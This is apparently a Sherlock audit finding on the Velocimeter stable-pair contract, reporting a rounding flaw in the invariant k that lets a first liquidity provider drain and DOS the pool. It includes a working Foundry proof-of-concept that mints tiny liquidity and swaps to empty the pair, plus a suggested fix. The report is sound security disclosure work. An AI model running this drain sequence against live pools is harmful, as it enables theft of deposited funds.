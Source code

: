 Howling Champagne Carp

High

# Stable pair pool can be DOS by first liquidity provider

## Summary

The First liquidity provider of a stable pair can DOS the pool with small amount of liquidity.

## Vulnerability Detail

The invariant k of a stable pool is calculated as follows in [#L404-#L411](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L404-#L411)

However, the value of _a = (x * y ) / 1e18,  when x*y < 1e18, will equal  0 due to rounding errors. The rounding error could make the invariant k of stable pool to be 0 allowing anyone to steal whatever is left in the pool

The first liquidity provider in the stable pool can DOS the pair by:

1. Minting a small amount of liquidity to the pool
2. Steal whatever is left in the pool
3. Repeat 1, and  2 until they overflow of the total supply.


Here is the POC of the exploit;

```diff

function testExploitPairWithSmallLiquidity() public {
    deployCoins();
    mintStables();
    deployPairFactoryAndRouter();
    
    // Create a new address to act as the governor
    address governor = address(0x1234);

    // Set up the voter
    vm.prank(factory.deployer());
    factory.setVoter(address(this));
    
    // Mock the voter's governor function to return our new governor address
    vm.mockCall(
        address(this),
        abi.encodeWithSignature("governor()"),
        abi.encode(governor)
    );
    
    // Use startPrank to set both msg.sender and tx.origin
    vm.startPrank(governor, governor);
    
    // Create the pair
    Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));
    
    // Stop the prank
    vm.stopPrank();

    // Mint more tokens to this contract
    deal(address(DAI), address(this), 1e25);
    deal(address(FRAX), address(this), 1e25);

    for(uint i = 0; i < 10; i++) {
        DAI.transfer(address(pair), 10_000_000);
        FRAX.transfer(address(pair), 10_000_000);
        uint liquidity = pair.mint(address(this));
        console2.log("pair:", address(pair), "liquidity:", liquidity);
        console2.log("total liq:", pair.balanceOf(address(this)));
        exploitPairWithSmallLiquidity(pair, FRAX.balanceOf(address(pair)), DAI.balanceOf(address(pair)));
        console2.log("DAI balance:", DAI.balanceOf(address(pair)));
        console2.log("FRAX balance:", FRAX.balanceOf(address(pair)));
        assertEq(DAI.balanceOf(address(pair)), 1, "should drain DAI balance");
        console.log("assertion of DAI passes");
        assertEq(FRAX.balanceOf(address(pair)), 2, "should drain FRAX balance");
        console.log("assertion of FRAX passes");
    }
    
    DAI.transfer(address(pair), 1 ether);
    FRAX.transfer(address(pair), 1 ether);
    vm.expectRevert();
    pair.mint(address(this));
}

function exploitPairWithSmallLiquidity(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
    DAI.transfer(address(pair), 1);
    
    uint amount0;
    uint amount1;

    if (address(DAI) < address(FRAX)) {
        amount0 = 0;
        amount1 = initialFraxAmount - 1;
    } else {
        amount1 = 0;
        amount0 = initialFraxAmount - 1;
    }
    pair.swap(amount0, amount1, address(this), new bytes(0));
    
    FRAX.transfer(address(pair), 1);
    if (address(DAI) < address(FRAX)) {
        amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
        amount1 = 0;
    } else {
        amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
        amount0 = 0;
    }
    pair.swap(amount0, amount1, address(this), new bytes(0));
}

```


## Impact

The first liquidity provider in the stable pool can DOS the pair due to rounding error and steal whatever is left

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L259

## Tool used

Manual Review

## Recommendation

To fix the issues of first LP of stable pairs

1. Set a higher MINIMUM_LIQUIDITY (10e9)
2. Make the invariant k greater than the set MINIMUM_LIQUIDITY
3. Only allow equal amount of liquidity


` uint internal constant MINIMUM_LIQUIDITY = 10**9;`

```diff

function mint(address to) external lock returns (uint liquidity) {
//...
if (_totalSupply == 0) {
liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
_mint(address(0), MINIMUM_LIQUIDITY);  // permanently lock the first MINIMUM_LIQUIDITY tokens

+ if (stable) {
+ require(_k(_amount0, _amount1) > MINIMUM_LIQUIDITY, "Stable pair must be above MINIMUM_LIQUIDITY");
+ require(_amount0 * 1e18 / decimals0 == _amount1 * 1e18 / decimals1, "Stable pair must be equal amounts");
+ }
}
//...

```